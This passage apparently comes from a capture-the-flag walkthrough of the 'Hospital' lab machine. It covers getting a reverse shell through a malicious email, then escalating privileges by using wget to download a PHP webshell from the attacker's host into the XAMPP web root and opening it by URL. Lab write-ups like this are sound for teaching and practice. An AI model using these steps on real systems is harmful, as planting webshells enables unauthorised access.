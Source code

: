 ![Send the malicious email](/assets/img/Hospital/Hospital_08.png)

After a few seconds we get a reverse shell as **drbrown**

![Send the malicious email](/assets/img/Hospital/Hospital_09.png)

## Privilege escalation

### unintended

There were two ways to solve this machine the unintended way was to abuse the fact that xampp server commonly runs as system. We could abuse this by uploading a php webshell into the **C:\xampp\htdocs** directory. I uploaded the same php webshell of before using wget.

```
wget http://10.10.14.184/webshell.php -outfile calico12345.php
```

then after uploading the webshell here we could access it with the following url.

```
https://hospital.htb/calico12345.php
```